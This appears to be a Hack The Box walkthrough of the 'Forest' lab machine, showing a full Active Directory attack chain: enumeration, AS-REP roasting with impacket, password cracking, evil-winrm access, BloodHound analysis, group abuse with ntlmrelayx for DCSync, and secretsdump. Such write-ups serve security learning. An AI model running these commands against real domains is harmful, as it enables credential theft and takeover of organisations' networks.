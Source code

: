 ```yaml
---
layout: post
title:  htb-forest
category: walkthrough
date:   2020-08-05 05:00:00
---
```


# ![forest](/assets/img/forest/forest.png)  
forest is a easy machine created by [egre55](https://www.hackthebox.eu/home/users/profile/1190) & [mrb3n](https://www.hackthebox.eu/home/users/profile/2984)  

# ENUM  
### nmap   
>nmap -sC -Pn -sV -T4 10.10.10.161  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-08-05 07:30 -03  
>Nmap scan report for 10.10.10.161  
>Host is up (0.23s latency).  
>Not shown: 989 closed ports  
>PORT     STATE SERVICE      VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP:   
>|     version  
>|_    bind  
>88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-08-05 10:41:15Z)  
>135/tcp  open  msrpc        Microsoft Windows RPC  
>139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn  
>389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=8/5%Time=5F2A8A51%P=x86\_64-pc-linux-gnu%r(DNSVe  
>SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x  
>SF:04bind\0\0\x10\0\x03");  
>Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows  

>Host script results:  
>|_clock-skew: mean: 2h30m39s, deviation: 4h02m31s, median: 10m37s  
>| smb-os-discovery:   
>|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)  
>|   Computer name: FOREST  
>|   NetBIOS computer name: FOREST\x00  
>|   Domain name: htb.local  
>|   Forest name: htb.local  
>|   FQDN: FOREST.htb.local  
>|_  System time: 2020-08-05T03:43:35-07:00  
>| smb-security-mode:   
>|   account\_used: guest  
>|   authentication\_level: user  
>|   challenge\_response: supported  
>|_  message_signing: required  
>| smb2-security-mode:   
>|   2.02:   
>|_    Message signing enabled and required  
>| smb2-time:  
>|   date: 2020-08-05 07:43:36  
>|_  start\_date: 2020-08-05 06:33:34  

>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 277.86 seconds  

Nmap gives me the domain htb.local  
Now I need usernames to try use [impacket](https://github.com/ifconfig-me/impacket)  

### enum4linux  
[enum4linux](https://github.com/CiscoCXSecurity/enum4linux) 10.10.10.16  
enum4linux shows a list of users  
![user](/assets/img/forest/forest1.png)  

# exploit  

Now I can use impacket's GetNPUser.py  
### impacket  
./GetNPUsers.py htb.local/ -usersfile users.txt -dc-ip 10.10.10.161 -no-pass  
Impacket found the hash of svc-alfresco user  
![hash](/assets/img/forest/forest15.png)  
John will help me to crack it  
john -w=/usr/share/wordlists/rockyou.txt hash.as  
![pass](/assets/img/forest/forest3.png)  

[evil-winrm](https://github.com/Hackplayers/evil-winrm) to acess the machine  
./evil-winrm.rb -i 10.10.10.161 -p s3rvice -u svc-alfresco  
![shell](/assets/img/forest/forest4.png)    
# PRIV ESC  
### bloodhound  
The hound  
./bloodhound.py -d htb.local -ns 10.10.10.161 -u svc-alfresco -p s3rvice -c all  
![bloodHound](/assets/img/forest/forest5.png)  
Just zip all the .json file and send to bloodhound  
svc-alfresco is member of [Account Operators](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11))  
![group](/assets/img/forest/forest6.png)  

![exchange1](/assets/img/forest/forest7.png) 
And exchange windows permissons group has WriteDacl 
![exchange2](/assets/img/forest/forest8.png)  
![writDacl](/assets/img/forest/forest9.png)  

If I add a user to Exchange Windows Permissions group I'll be able to do a DCSync attack  
### impacket  
net group "Exchange Windows Permissions" svc-alfresco /add  
![netGroup](/assets/img/forest/forest10.png)  
to add svc-alfresco in the group  
and impacket's ntlmrelayx.py  
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco  
Logged as svc-alfresco in localhost  
![localhost](/assets/img/forest/forest11.png)  
and..  
![ntlmrelayx](/assets/img/forest/forest12.png)  
Ready for secretsdump  
![secretsDump](/assets/img/forest/forest13.png)  
Evil again as admin  
![evilAdmin](/assets/img/forest/forest14.png)  
